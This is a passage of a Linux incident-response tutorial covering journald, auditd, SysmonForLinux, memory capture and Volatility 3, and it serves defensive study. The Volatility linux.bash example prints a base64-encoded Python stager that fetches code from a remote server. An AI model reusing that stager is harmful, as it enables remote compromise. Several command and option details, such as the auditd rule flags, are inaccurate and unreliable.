        "_SYSTEMD_INVOCATION_ID" : "12345678-90ab-cdef-1234-567890abcdef"
}
<SNIP>
```

To enhance forensic analysis, consider exporting journals for offline review. Use `journalctl -o export > journal.export` to create a binary export file, which can be imported elsewhere with `journalctl --import journal.export`. For persistence, configure `/etc/systemd/journal.conf` to set `Storage=persistent`, ensuring logs survive reboots in `/var/log/journal/`. In investigations, combine filters for targeted searches, like `journalctl -U ssh.service -p err` to spot SSH errors. Tools like `journalctl --vacuum-time=2weeks` can clean old entries, but in forensics, disable this to preserve data. For remote journals, enable forwarding with SystemLogSocket in `journald.conf`, sending to a central server for aggregation.

### Auditd

... is a powerful auditing framework that goes beyond standard logging by capturing granular, security-relevant events at the kernel level, making it invaluable for detecting intrusions, compliance violations, or unauthorized changes. In incident response, Auditd logs can reveal file tampering, syscall abuses, or user modifications that might evade other mechanisms, allowing you to reconstruct attack paths with precision. It operates by starting as a service and communicating with the kernel's audit subsystem through a netlink socket to receive event messages. It applies predefined audit rules to filter and log relevant events, writing them in a structured format to `/var/log/audit/audit.log`, with features like log rotation and buffering to hanlde high volumes. Configuration is managed via `/etc/audit/audit.conf`, and it can be controlled with tools like auditctl for runtime adjustments. If the log fills up, it can trigger actions like halting the system for security.

#### Overview

The Linux Audit subsystem provides a secure logging framework that is used to capture and record security relevant events. Linux auditing is a kernel feature that generates an audit trail based on a set of rules. It has similarities to other logging mechanisms, but is more flexible, granular, and able to log file access and system calls. The `auditctl` program loads rules into the kernel, and the auditd daemon writes the audit records to disk.

A breakdown of its key components:

|Component|Description|
|---|---|
|Audit rules|`/etc/audit/audit.rules /etc/audit/rules.d/*.rules`|
|Config files location|`/etc/audit/auditd.conf`|
|Daemon|`/usr/sbin/auditd`|
|Local audit log|`/var/log/audit/audit.log`|
|Tool used to configure rules|`auditctl`, augenrules reads in the `/etc/audit/rules.d/` and compiles them into an `audit.rules` file.|
|Tool used to search|`aureport` and `ausearch` reads `audit.log` file|
|Recommended basic configuration file|[https://github.com/Neo23x0/auditd/blob/master/audit.rules](https://github.com/Neo23x0/auditd/blob/master/audit.rules)|

After installing it, enable the service with `sudo systemctl enable --now auditd`. For persistence across reboots, add rules to `/etc/audit/rules.d/` and reload with `sudo augenrules --load`. For forensics, check `/etc/audit/auditd.conf` for settings like log rotation to understand retention policies.

#### Audit Rules

Audit rules are configuration directives used by the Linux Auditing System to specify which system events, such as file operations, system calls, or user actions, should be monitored and logged by auditd. They are typically defined in files like `/etc/audit/audit.rules` or `/etc/audit/rules.d/` and loaded into the kernel. These are used for customizing the scope of auditing to focus on security-critical activities, such as watching specific files for modifications, tracking executable runs, or monitoring network operations, thereby supporting compliance, threat detection, and detailed event tracking without overwhelming the system with unnecessary logs.

There are 3 kinds of audit rules:

- Control rules - overall control of the audit system
- File System rules - audit access to files and directories
- Syscall - audit system calls

|Rule Type|Parameters|Description|
|---|---|---|
|Control rules|`-b`|sets the maximum amount of existing Audit buffers in the kernel|
|Control rules|`-f`|sets the action that is performed when a critical error is detected|
|Control rules|`-e`|enables and disables the Audit system or locks its configuration|
|Control rules|`-r`|sets the rate of generated messages per second|
|Control rules|`-s`|reports the status of the Audit system|
|Control rules|`-l`|lists all currently loaded Audit rules|
|Control rules|`-D`|deletes all currently loaded Audit rules|
|File System rules|`-r`|read access to a file or a directory.|
|File System rules|`-w`|write access to a file or a directory.|
|File System rules|`-x`|execute access to a file or a directory.|
|File System rules|`-a`|change in the file's or directory's attribute.|
|System call rules|`-a`|action and filter (action can be either always or never. filter specifies which kernel rule-matching filter is applied to the event. The rule-matching filter can be one of the following: task, exit, user, and exclude)|
|System call rules|`-S`|system call (list of system calls can be found in the `/usr/include/asm/unistd_64.h` file|
|System call rules|`-F exe=path_to_exe`|filters events where the executable matches the specified path|

Audit rules operate by being loaded into the kernel's audit subsystem either at boot or dynamically using the `auditctl` command. When an event matches a rule, it's sent to auditd for logging, with keys _`(-k)`_ for easy searching later. For example, you can detect modification and creation of new users using the following auditd rules:

| Modifications | Rules |
|---|---|
|User, group, password databases|`w /etc/group -p wa -k etcgroup`|
|User, group, password databases|`w /etc/passwd -p wa -k etcpasswd`|
|User, group, password databases|`w /etc/gshadow -k etcgroup`|
| User, group, password databases | `w /etc/shadow -k etcpasswd` |
| User, group, password databases | `w /etc/security/opasswd -k opasswd` |
| Sudoers file changes | `w /etc/sudoers -p wa -k actions` |
| Sudoers file changes | `w /etc/sudoers.d/ -p wa -k actions` |
| Passwd | `w /usr/bin/passwd -p x -k passwd_modification` |
| Tools to change group identifiers | `w /usr/sbin/groupadd -p x -k group_modification` |
| Tools to change group identifiers | `w /usr/sbin/groupmod -p x -k group_modification` |
| Tools to change group identifiers | `w /usr/sbin/addgroup -p x -k group_modification` |
| Tools to change group identifiers | `w /usr/sbin/useradd -p x -k user_modification` |
| Tools to change group identifiers | `w /usr/sbin/userdel -p x -k user_modification` |
| Tools to change group identifiers | `w /usr/sbin/usermod -p x -k user_modification` |
| Tools to change group identifiers | `w /usr/sbin/adduser -p x -k user_modification` |

Sudoers file modification might also be used for privesc.

#### aureport

The `aureport` utility generates summary reports from audit log files, aggregating data into readable formats like event counts or user activity summaries. By default, all `audit.log` files in the `/var/log/audit/` directory are queried to create the report. You can specify a different file to run the report against using the `aureport` options `-if file_name` command. Aureport works by processing the audit log file and using options to specify report types, such as `-a` for authentication, `-f` for files, or `-u` for users. It can filter by time, interpret data, and output in formats suitable for further analysis, drawing from hardcoded event categories to produce aggregated statistics like success/failure counts.

Example:

```bash
linuxforensics@ubuntu:~$ sudo aureport --input /home/linuxforensics/Desktop/cases/scenario1/collection/uploads/auto/var/log/audit/audit.log --login

Login Report
============================================
# date time auid host term exe success event
============================================
1. 02/26/2025 15:00:01 1000 ? /dev/pts/0 /usr/sbin/sshd yes 7050
2. 02/26/2025 15:01:12 0 ? /dev/pts/1 /bin/bash no 5678
<SNIP>
```

#### ausearch

`ausearch` is used for investigating audit trails by searching logs for particular events, such as failed logins or file accesses, which is essential for security analysis, debugging, and reconstructing sequences of actions during incident response. by default, `ausearch` searches the `/var/log/audit/audit.log` file. You can specify a different file using the `ausearch` options `-if file_name` command. Supplying multiple options in one `ausearch` command is equivalent to using the AND operator between field types and the OR operator between multiple instances of the same field type.

Exmaple:

```bash
linuxforensics@ubuntu:~$ sudo ausearch -if /home/linuxforensics/Desktop/cases/scenario1/collection/uploads/auto/var/log/audit/audit.log -m ADD_USER -m DEL_USER -m ADD_GROUP -m USER_CHAUTHTOK -m DEL_GROUP -m CHGRP_ID -m ROLE_ASSIGN -m ROLE_REMOVE -i

----
time->Wed Feb 26 15:02:23 2025
type=USER_CHAUTHTOK msg=audit(1234567890.123:456): pid=12345 uid=0 auid=1000 ses=1 subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 msg='op=PAM:chauthtok acct="john" exe="/usr/bin/passwd" hostname=? addr=? terminal=pts/0 res=success'
<SNIP>
```

To list all `ausearch` options, you can use `man ausearch`. The full Auditd documentation can be found [here](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/9/html/security_hardening/auditing-the-system_security-hardening).

Audit logs are text-based but structured, with fields like `type=`, `msg=audit(timestamp:event_id:`, and key-value pairs. This format aids parsing; use scripts or tools like awk / grep for extraction. For advanced analysis, integrate with ELK Stack by forwarding logs via audispd plugins.

Extend monitoring with rules for network changes:

```bash
linuxforensics@ubuntu:~$ auditctl -a always,exit -F arch=b64 -S socket -k network_mod
```

In investigations, make logs immutable with `chattr +i /var/log/audit/audit.log` to prevent tampering. Correlate with journalctl or syslog for a fuller picture , e.g., match Auditd's syscall events with journal timestamps.

For example, to status check:

```bash
linuxforensics@ubuntu:~$ sudo auditctl -s

enabled 1
failure 1
pid 1234
rate_limit 0
backlog_limit 8192
lost 0
backlog 0
loginuid_immutable 0 unlocked
```

### SysmonForLinux

... is an open-source system monitoring tool developed by Microsoft as part of the Sysinternals suite. By leveraging  extended Berkely Packet Filter (_eBPF_) technology, SysmonForLinux efficiently monitors key events without significant performance overhead, making it adaptable for both standalone servers and large-scale deployments in cloud or enterprise settings.

In terms of operation, it's installed as a service and device driver that persists across reboots, ensuring continuous monitoring. Logs are primarily directed to `/var/log/syslog` by default, but can be configured to integrate with other logging systems like `system-journald` or forwarded to centralized SIEM platforms. Configuration is handled through XML files, where users define rules for event filtering, such as including or excluding specific processes, paths or behaviors, to focus on high-value activities while minimizing noise. For viewing logs, the included SysmonLogView utility parses and formats the output for better readability, allowing queries based on event types or keywords.

What makes SysmonForLinux a game-changer is its ability to complement native Linux tools like Auditd or Syslog by providing more granular, security-focused telemetry that traditional logging might miss. For example, in incident analysis, its logs can reveal anomalies such as unexpected process injections, suspicious registry-like changes in configuration files, or outbound connections to C2 servers, helping teams reconstruct attack chains and respond swiftly. Installation is straightforward via Microsoft's Linux repos for distros like Ubuntu, Red Hat, or Debian, with build options available for custom setups.

#### Overview

It uses eBPF programs to hook into kernel events, automatically discovering kernel offsets or relying on BPF Type Format (_BTF_) for precise tracing on supported systems. From an event-tracing perspective, eBPF allows you to write event-driven programs and have pre-defined hooks into operations such as system calls, network connections, and file write/read. You can find out how to automate the deployment of SysmonForLinux [here](https://techcommunity.microsoft.com/t5/microsoft-sentinel-blog/automating-the-deployment-of-sysmon-for-linux-and-azure-sentinel/ba-p/2847054).



Breakdown of key components:

|Component|Description|
|---|---|
|Underlying Technology|eBPF for event-driven kernel hooks|
|Log Location|`/var/log/syslog` (XML format)|
|Configuration|XML files (e.g., `sysmonconfig.xml`) for filtering events|
|Daemon|Sysmon (Installed as a service)|
|Parsing Tool|SysmonLogView for converting XML to human-readable format|
|Installation|Via Microsoft repositories or build from source on GitHub|

**Supported events**:

|Event ID|Description|
|---|---|
|`1`|Logs when a new process is created.|
|`3`|Logs TCP/UDP connections on the machine.|
|`4`|Logs the state of the Sysmon service (started or stopped).|
|`5`|Logs when a process terminates.|
|`9`|Logs when a process conducts reading operations, from the drive.|
|`11`|Logs when a file is created or overwritten.|
|`16`|Logs when the local Sysmon configuration is updated.|
|`23`|Logs when a file is deleted by a process.|

#### Installation and Configuration

To install SysmonForLinux, add Microsoft's repo for your Ubuntu distro:

```bash
cry0l1t3@ubuntu:~$ wget -qO- <https://packages.microsoft.com/keys/microsoft.asc> | sudo apt-key add - 
cry0l1t3@ubuntu:~$ sudo add-apt-repository "deb [arch=amd64] <https://packages.microsoft.com/ubuntu/$>(lsb_release -rs)/prod $(lsb_release -cs) main"
cry0l1t3@ubuntu:~$ sudo apt update && sudo apt install sysmonforlinux -y
cry0l1t3@ubuntu:~$ sudo sysmon -i sysmonconfig.xml   # <- Start with this command for a custom config, or without for defaults
```

Configuration uses XML files to filter events:

```xml
<Sysmon schemaversion="4.90">
  <EventFiltering>
    <ProcessCreate onmatch="exclude">
      <Image>/bin/ls</Image>
    </ProcessCreate>
  </EventFiltering>
</Sysmon>
```

You can update configs with:

```bash
linuxforensics@ubuntu:~$ sudo sysmon -c newconfig.xml
```

For forensics, use configs from repos like [SwiftOnSecurity's](https://github.com/SwiftOnSecurity/sysmon-config) to focus on high-value events.

#### SysmonLogView

... is designed to enhance the usability of Sysmon's logging output on Linux systems. It primarily serves to convert the XML-formatted event logs generated by Sysmon into a more human-readable, structured text format, making it easier for you to parse, analyze, and troubleshoot system activities without dealing with raw XML clutter. It works by reading syslog data from standard input and writing processes, filtered output to standard output, allowing easy integration into pipelines or scripts for real-time monitoring and/or batch processing.

```bash
linuxforensics@ubuntu:~$ sudo /opt/sysmon/sysmonLogView -h

SysmonLogView v1.0 - Converts Sysmon syslog XML to human readable form
Sysinternals - www.sysinternals.com
By Kevin Sheldrake
Copyright (C) 2021 Microsoft Corporation

Usage:
            sysmonLogView [<options>]
  -e   Only display events with matching eventID. Specify comma-separated list
       of eventIDs and/or multiple -e switches.
  -r   Only display events within the specified range of recordIDs. Specify
       min,max. If min is missing, start from the beginning; if end is missing,
       continue to end.
  -t   Only display events within the specified time stamps. Specify start,end.
       Time format is YYYY-MM-DD HH:MM[:SS[.nnn]] where nnn is milliseconds.
       If start is missing, start at beginning; if end is missing, continue to
       the end.
  -f   For events that have a particular field, only display events that match
       the given value (case sensitive). e.g. '-f Image=/bin/touch'
  -E   Only display the specified fields for the specified event. Specify
       <eventID>=<comma-separated list of fields>. Can use multiple times.
  -X   Print a blank link between events.
  -h   Display this help.
  -?   Display this help.

Supply input data on standard input; writes to standard output. By default all
events are displayed but switches can be used to only display certain events,
and to only display certain fields within the events that are displayed.

Wrap arguments in quotes (e.g. "<argument>") if argument contains spaces.

Typical usage:
  sudo tail -f /var/log/syslog | sudo /opt/sysmon/sysmonLogView
```

```bash
linuxforensics@ubuntu:~$ cat /home/linuxforensics/Desktop/cases/HacktiveLegion_15102023/ubuntu/var/log/syslog | sudo /opt/sysmon/sysmonLogView

UtcTime: 2023-10-15 18:00:01.234
ProcessGuid: {ff032593-1234-5678-90ab-cdef12345678}
ProcessId: 12345
Image: /bin/bash
CommandLine: bash script.sh
CurrentDirectory: /home/john
User: john
LogonGuid: {00000000-0000-0000-0000-000000000000}
LogonId: 1000
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA256=abcdef1234567890
ParentProcessGuid: {ff032593-8765-4321-09ba-fedcba987654}
ParentProcessId: 67890
ParentImage: /usr/sbin/sshd
ParentCommandLine: sshd: john [priv]
<SNIP>
```

#### Forensic Tip

In investigations, pipe logs to tools like `jq` for JSON-like parsing. Forward to a SIEM by configuring `rsyslog` to send Sysmon events. Rotate logs via `/etc/logrotate.d/syslog` to preserve history. However, you need to ensure eBPF supprts kernel 4.18+. You can test configs with `sysmon -? config`.

```bash
linuxforensics@ubuntu:~$ sudo tail -f /var/log/syslog | grep "EventID>1" | sudo /opt/sysmon/sysmonLogView -f EventID=1

Event SYSMONEVENT_CREATE_PROCESS
        RuleName: -
        UtcTime: 2025-11-03 15:20:20.326
        ProcessGuid: {7df8f1a8-c834-6908-fd04-c48d09560000}
        ProcessId: 5047
        Image: /usr/bin/sudo
        FileVersion: -
        Description: -
        Product: -
        Company: -
        OriginalFileName: -
        CommandLine: sudo /opt/sysmon/sysmonLogView
        CurrentDirectory: /home/linuxforensics
        User: root
        LogonGuid: {7df8f1a8-0000-0000-0000-000002000000}
        LogonId: 0
        TerminalSessionId: 6
        IntegrityLevel: no level
        Hashes: SHA256=7d3c2983ad2f278d9e799b5792f13f57bf890bd3b03d10b36e53bf0b6677895e
        ParentProcessGuid: {7df8f1a8-c73a-6908-0def-0fa03e560000}
        ParentProcessId: 5018
        ParentImage: /usr/bin/bash
        ParentCommandLine: bash
        ParentUser: root
<SNIP>
```

You can also pair SysmonForLinux with Auditd for more comprehensive coverage. SysmonForLinux excels in process/network events, while Auditd handles syscalls. Additionally, with SysmonLogView you can export the logs to CSV for analysis: `sysmonLogView -csv output.csv < syslog`.

### Linux Memory Image

Acquiring and analyzing memory images is a crucial technique for capturing volatile data that disappears on shutdown. This process snapshots the system's RAM, revealing active processes, network connections, and even hidden malware that disk-based analysis might miss.

#### Overview

Memory dumps can expose loaded modules, open files, and command histories that aren't persisted to disk, making them essential for volatile evidence preservation. To maximize the effectiveness of Volatility 3 during your analysis and investigations in real-world environments, you need to acquire memory dumps as early as possible to minimize volatility loss because the data in RAM can evaporate quickly due to system activity or power cycles.

You can use a variety of tools to acquire Linux memory:

- **Fmem**: this is a kernel module which creates a `/dev/fmem` device, that can be used for dumping physical memory, without limits of `/dev/mem`
- **LiME**: this is another Loadable Kernel Module (_LKM_) which is used to collect volatile memory images from Linux and Linux-based devices, such as Android
- **AVML**: AVML is an X86_64 userland volatile memory acquisition tool written in Rust, intended to be deployed as a static binary. AVML can be used to acquire memory without knowing the target OS distro or kernel a priori. No on-target compilation or fingerprinting is needed

```bash
d41y@htb[/htb]$ ./avml --help

A portable volatile memory acquisition tool

Usage: avml [OPTIONS] <FILENAME>

Arguments:
  <FILENAME>
          name of the file to write to on local system

Options:
      --compress
          compress via snappy

      --source <SOURCE>
          specify input source

          Possible values:
          - /dev/crash:  Provides a read-only view of physical memory.  Access to memory using this device must be paged aligned and read one page at a time
          - /dev/mem:    Provides a read-write view of physical memory, though AVML opens it in a read-only fashion.  Access to to memory using this device can be disabled using the kernel configuration options `CONFIG_STRICT_DEVMEM` or `CONFIG_IO_STRICT_DEVMEM`
          - /proc/kcore: Provides a virtual ELF coredump of kernel memory.  This can be used to access physical memory

      --max-disk-usage <MAX_DISK_USAGE>
          Specify the maximum estimated disk usage (in MB)

      --max-disk-usage-percentage <MAX_DISK_USAGE_PERCENTAGE>
          Specify the maximum estimated disk usage to stay under

      --url <URL>
          upload via HTTP PUT upon acquisition

      --delete
          delete upon successful upload

      --sas-url <SAS_URL>
          upload via Azure Blob Store upon acquisition

      --sas-block-size <SAS_BLOCK_SIZE>
          specify maximum block size in MiB

      --sas-block-concurrency <SAS_BLOCK_CONCURRENCY>
          specify blob upload concurrency

          [default: 10]

  -h, --help
          Print help (see a summary with '-h')

  -V, --version
          Print version
```

#### Preparing for Memory Acquisition

Before starting the acquisition process, ensure that the target system is isolated to prevent further changes to the memory state. This might involve disconnecting network cables or disabling wireless interfaces to avoid remote interference. Also, document the system's current state, including running processes via `ps aux` or network connections with `netstat -tuln`, as these can serve as baselines for later analysis. Remember, inserting any tool into the system can alter memory slightly, so choose tools that minimize footprint, like static binaries.

##### Memory Dump with AVML

The easiest tool to use is AVML, which doesn't require any compilation on the target system. To acquire a memory image, just run it with root permissions and provide the filename.

```bash
d41y@htb[/htb]$ sudo ./avml memdump.mem

Acquiring memory...
Progress: 100% (4.0 GB / 4.0 GB)
Memory acquisition complete. File saved as memdump.mem
```

##### Using LiME for Memory Dumps

For environments where kernel modules are acceptable, LiME offers flexible options for dumping memory over TCP or local files. First, compile the module on a similar system using `make`, then transfer the `.ko` file to the target. Load it with`insmod` and specify the output format.

```bash
d41y@htb[/htb]$ sudo insmod lime.ko "path=tcp:4444 format=lime"

# On the collection host:
d41y@htb[/htb]$ nc -l -p 4444 > memory.lime
```

This method is useful for remote acquisitions without writing to the target's disk, reducing the risk of overwriting evidence.

#### Considerations

Always verify the integrity of the acquired image using hashes like SHA-256 immediately after dumping to ensure no corruption occured during transfer. Store the dump on external media to avoid contaminating the target system. Be aware of legal implications in forensic scenarios, as the chain of custody must always be maintained. In virtualized environments, consider hypervisor-level dumps if possible for a cleaner snapshot.

### Volatility 3

... is an advanced, open-source memory forensics framework to extract and analyze digital artifacts from volatile memory dumps, supporting multiple OS, including Linux.

#### Setting Up Volatility 2 for Linux

If you have to get started with Volatility 3 on Linux memory dumps, first install the framework by cloning the repo from GitHub and installing dependencies via pip:

```bash
linuxforensics@ubuntu:~$ git clone https://github.com/volatilityfoundation/volatility3.git
linuxforensics@ubuntu:~$ pip install -r requirements.txt
```

For Linux-specific analysis, you'll need a memory dump file acquired from the target system. Volatility 3 requires symbol tables for the Linux kernel, which can be generated or downloaded. You can search for the full banner as shown in Volatility 3's `banners.Banners` plugin or check the kernel version using `uname -r`. To obtain the appropriate Linux symbols, visit the community-maintained repo at https://github.com/Abyss-W4tcher/volatility3-symbols, which provides pre-generated JSON symbol packs for various Linux kernel versions and distros.

Pre-built symbol tables are often available, but for custom kernels, use tools like `dwarfdump` to create them from kernel debug symbols and `System.map`. Place symbol tables in a directory and point Volatility to the using the `--symbol-dir` option if needed. You can run plugins with the command format `python3 vol.py -f <dumpfile> <plugin_name>`, ensuring the Python environment matches the framework's requirements. Test setup by running `python3 vol.py info` to list availabe plugins and automations.

#### Key Plugins

Once configured, Volatility 3 offers a suite of Linux-specific plugins to extract valuable forensic data from memory dumps. These plugins leverage the framework's ability to parse kernel structures like `task_struct` for processes or `inode` for cache files. Below is an expanded list of commonly used plugins, including those mentioned in the original description, with brief explanations, usage commands, and typical outputs:

|Plugin|Description|Command|
|---|---|---|
|`linux.pslist`|Lists all running processes by walking the kernel's task list, displaying details like PID, PPID, command name, and start time. Useful for identifying hidden or rogue processes.|`python3 vol.py -f memdump.mem linux.pslist`|
|`linux.bash`|Recovers command history from bash shells by scanning process memory for history structures, revealing executed commands even if logs were cleared.|`python3 vol.py -f memdump.mem linux.bash`|
|`linux.sockstat`|Lists all network connections for all processes, including sockets, protocols (TCP/UDP), local/remote addresses, and associated processes. Ideal for detecting unauthorized network activity or backdoors.|`python3 vol.py -f memdump.mem linux.sockstat`|
|`linux.psaux`|Lists processes with their command line arguments.|`python3 vol.py -f memdump.mem linux.psaux`|
|`linux.pstree`|Displays the process tree, showing parent-child relationships to visualize process hierarchies and spot anomalies like orphaned processes.|`python3 vol.py -f memdump.mem linux.pstree`|
|`linux.lsmod`|Lists loaded kernel modules, helping detect rootkits or malicious drivers injected into the kernel.|`python3 vol.py -f memdump.mem linux.lsmod`|
|`linux.lsof`|Shows open files for each process, including file descriptors, types (e.g., regular files, sockets), and paths, useful for tracking file access during incidents.|`python3 vol.py -f memdump.mem linux.lsof`|
|`linux.envvars`|Extracts environment variables from processes, which can reveal configuration details, paths, or sensitive data like API keys.|`python3 vol.py -f memdump.mem linux.envvars`|
|`linux.malfind`|Scans process memory for suspicious code injections or hidden malware by detecting regions with executable permissions but no mapped files.|`python3 vol.py -f memdump.mem linux.malfind`|
|`linux.check_syscall`|Verifies the integrity of system call tables to detect hooks or modifications by rootkits.|`python3 vol.py -f memdump.mem linux.check_syscall`|
|`linux.elfs`|Lists all memory mapped ELF files for all processes.|`python3 vol.py -f memdump.mem linux.elfs`|
|`linux.mountinfo`|Lists mount points on processes mount namespaces.|`python3 vol.py -f memdump.mem linux.mountinfo`|
|`linux.proc`|Lists all memory maps for all processes.|`python3 vol.py -f memdump.mem linux.proc`|

Additional plugins like `linux.ifconfig`, `linux.mount_cache`, and `linux.pidhashtable` provide deeper insights into system state. You can chain plugins or use automations for comprehensive analysis, such as combining `linux.pslist` with `linux.malfind` to investigate suspicious processes.

#### Memory Analysis

One the memory image is successfully acquired, the next step is memory analysis. This is where tools like Volatility come into play. Volatility is an open-source memory forensics framework that provides a wealth of capabilities for analyzing memory dumps. The only difference between Linux and Windows memory analysis is that for Linux you need to create a custom profile or symbol table.

First you need to determine the kernel version of the system where the memory image was acquired. You can use volatility module banners.

```bash
linuxforensics@ubuntu:~$ cd /tools/volatility3
linuxforensics@ubuntu:~/tools/volatility3$ python3 vol.py -q -f ~/Desktop/cases/HacktiveLegion_15102023/memdump.mem banners.Banners

Volatility 3 Framework 2.5.2

Offset  Banner

0x60dd97e0      Linux version 5.15.0-84-generic (buildd@lcy02-amd64-005) (gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, GNU ld (GNU Binutils for Ubuntu) 2.34) #93~20.04.1-Ubuntu SMP Wed Sep 6 16:15:40 UTC 2023
<SNIP>
```

Take a look at another example and use the `linux.pslist` plugin on a sample memory dump:

```bash
linuxforensics@ubuntu:~/tools/volatility3$ python3 vol.py -f ~/Desktop/cases/HacktiveLegion_15102023/memdump.mem linux.pslist

Volatility 3.0.0-beta.1    linux     pslist.PsList       Linux processes
Offset             PID     PPID    COMM            Threads  Handles  Start Time
0xffff888001234000 1       0       systemd         15       -        2023-10-15 10:00:01.000000
0xffff888004567000 123     1       sshd            3        -        2023-10-15 18:00:05.000000
0xffff888007890000 456     123     bash            1        -        2023-10-15 18:05:10.000000
<SNIP>
```

This output shows process details, which can be piped to tools like `grep` for filtering. For verbose output, add options like `--pid <PID>` to target specific processes.

To generate your own symbol table, follow the next steps:

1. Install [dwarf2json](https://github.com/volatilityfoundation/dwarf2json)
2. Collect system version either through Volatility 3 banners or `uname -r`
3. To install debug symbols you need to enable dbgsym repos first

```bash
linuxforensics@ubuntu:~$ echo "deb <http://ddebs.ubuntu.com> $(lsb_release -cs) main restricted universe multiverse \
deb <http://ddebs.ubuntu.com> $(lsb_release -cs)-updates main restricted universe multiverse \
deb <http://ddebs.ubuntu.com> $(lsb_release -cs)-proposed main restricted universe multiverse" | sudo tee -a /etc/apt/sources.list.d/ddebs.list

linuxforensics@ubuntu:~$ sudo apt install ubuntu-dbgsym-keyring
cry0l1t3@ubuntu:~$ sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys F2EDC64DC5AEE1F6B9C621F0C8CAB6595FDFF622
cry0l1t3@ubuntu:~$ sudo apt-get update
```

4. Now you can install dbgsym for the desired kernel image version

```bash
linuxforensics@ubuntu:~$ sudo apt install linux-image-5.15.0-84-generic-dbgsym
```

The vmlinux file containing kernel debug symbols is located in the `/usr/lib/debug/boot` directory.

5. Generate Intermediate Symbole File (_ISF_) JSON for kernel debug symbols. Processing large DWARF files requires a minimum of 8GB RAM, so you may need to add more swap space if you don't have enough RAM

```bash
linuxforensics@ubuntu:~$ ./dwarf2json linux --elf /usr/lib/debug/boot/vmlinux-5.15.0-84-generic > ubuntu64-5.15.0-84-generic.json
```

6. Copy the generated JSON file to the Volatility 3 symbols folder.

```bash
linuxforensics@ubuntu:~$ cp ubuntu64-5.15.0-84-generic.json /home/linuxforensics/volatility3/volatility3/symbols/
```

Now you are able to analyze your memory image with Volatility 3.

##### linux.psaux

Lists processes with their command line arguments.

```bash
linuxforensics@ubuntu:~/tools/volatility3$ python3 vol.py -q -f ~/Desktop/cases/HacktiveLegion_15102023/memdump.mem linux.psaux

Volatility 3 Framework 2.5.2

PID     PPID    COMM    ARGS

1       0       systemd /sbin/init auto noprompt
2       0       kthreadd        [kthreadd]
3       2       rcu_gp  [rcu_gp]
4       2       rcu_par_gp      [rcu_par_gp]
5       2       slub_flushwq    [slub_flushwq]
6       2       netns   [netns]
8       2       kworker/0:0H    [kworker/0:0H]
10      2       mm_percpu_wq    [mm_percpu_wq]
11      2       rcu_tasks_rude_ [rcu_tasks_rude_]
12      2       rcu_tasks_trace [rcu_tasks_trace]
13      2       ksoftirqd/0     [ksoftirqd/0]
14      2       rcu_sched       [rcu_sched]
15      2       migration/0     [migration/0]
<SNIP>
```

##### linux.bash

Recovers bash command history from memory.

```bash
linuxforensics@ubuntu:~/tools/volatility3$ python3 vol.py -q -f ~/Desktop/cases/HacktiveLegion_15102023/memdump.mem linux.bash

Volatility 3 Framework 2.5.2

PID     Process CommandTime     Command

4606    bash    2023-10-15 17:50:53.000000      LESSCLOSE
4606    bash    2023-10-15 17:50:53.000000      echo "import sys,base64,warnings;warnings.filterwarnings('ignore');exec(base64.b64decode('aW1wb3J0IHN5czsKaW1wb3J0IHJlLCBzdWJwcm9jZXNzOwpjbWQgPSAicHMgLWVmIHwgZ3JlcCBMaXR0bGVcIFNuaXRjaCB8IGdyZXAgLXYgZ3JlcCIKcHMgPSBzdWJwcm9jZXNzLlBvcGVuKGNtZCwgc2hlbGw9VHJ1ZSwgc3Rkb3V0PXN1YnByb2Nlc3MuUElQRSwgc3RkZXJyPXN1YnByb2Nlc3MuUElQRSkKb3V0LCBlcnIgPSBwcy5jb21tdW5pY2F0ZSgpOwppZiByZS5zZWFyY2goIkxpdHRsZSBTbml0Y2giLCBvdXQuZGVjb2RlKCdVVEYtOCcpKToKICAgc3lzLmV4aXQoKTsKCmltcG9ydCB1cmxsaWIucmVxdWVzdDsKVUE9J01vemlsbGEvNS4wIChXaW5kb3dzIE5UIDYuMTsgV09XNjQ7IFRyaWRlbnQvNy4wOyBydjoxMS4wKSBsaWtlIEdlY2tvJztzZXJ2ZXI9J2h0dHA6Ly8zLjIxMi4xOTcuMTY2OjgwJzt0PScvbG9naW4vcHJvY2Vzcy5waHAnOwpyZXE9dXJsbGliLnJlcXVlc3QuUmVxdWVzdChzZXJ2ZXIrdCk7CnByb3h5ID0gdXJsbGliLnJlcXVlc3QuUHJveHlIYW5kbGVyKCk7Cm8gPSB1cmxsaWIucmVxdWVzdC5idWlsZF9vcGVuZXIocHJveHkpOwpvLmFkZGhlYWRlcnM9WygnVXNlci1BZ2VudCcsVUEpLCAoIkNvb2tpZSIsICJzZXNzaW9uPXVxRklJaytQTnhRL3NlQmxjL3dJclhwVzNRbz0iKV07CnVybGxpYi5yZXF1ZXN0Lmluc3RhbGxfb3BlbmVyKG8pOwphPXVybGxpYi5yZXF1ZXN0LnVybG9wZW4ocmVxKS5yZWFkKCk7Ck
4606    bash    2023-10-15 17:50:53.000000      exit
4606    bash    2023-10-15 17:50:53.000000      sudo su
4606    bash    2023-10-15 17:51:01.000000      cd tools/
4606    bash    2023-10-15 17:51:08.000000      sudo ./avml memdump.mem
4606    bash    2023-10-15 17:51:08.000000
```

##### linux.elfs

Lists all memory mapped ELF files for all processes. You can also dump those files with `--dump` option.

```bash
linuxforensics@ubuntu:~/tools/volatility3$ python3 vol.py -q -f ~/Desktop/cases/HacktiveLegion_15102023/memdump.mem linux.elfs

Volatility 3 Framework 2.5.2

PID     Process Start   End     File Path       File Output

1       systemd 0x5612e9fbe000  0x5612e9ff0000  /usr/lib/systemd/systemd        Disabled
1       systemd 0x7fd3aa730000  0x7fd3aa73d000  /usr/lib/x86_64-linux-gnu/libm-2.31.so  Disabled
1       systemd 0x7fd3aae62000  0x7fd3aae64000  /usr/lib/x86_64-linux-gnu/libcap-ng.so.0.0.0    Disabled
1       systemd 0x7fd3aae72000  0x7fd3aae74000  /usr/lib/x86_64-linux-gnu/libpcre2-8.so.0.9.0   Disabled
1       systemd 0x7fd3ab1fc000  0x7fd3ab1ff000  /usr/lib/x86_64-linux-gnu/libaudit.so.1.0.0     Disabled
1       systemd 0x7fd3ab228000  0x7fd3ab22b000  /usr/lib/x86_64-linux-gnu/libpam.so.0.84.2      Disabled
1       systemd 0x7fd3ab29c000  0x7fd3ab2a2000  /usr/lib/x86_64-linux-gnu/libselinux.so.1       Disabled
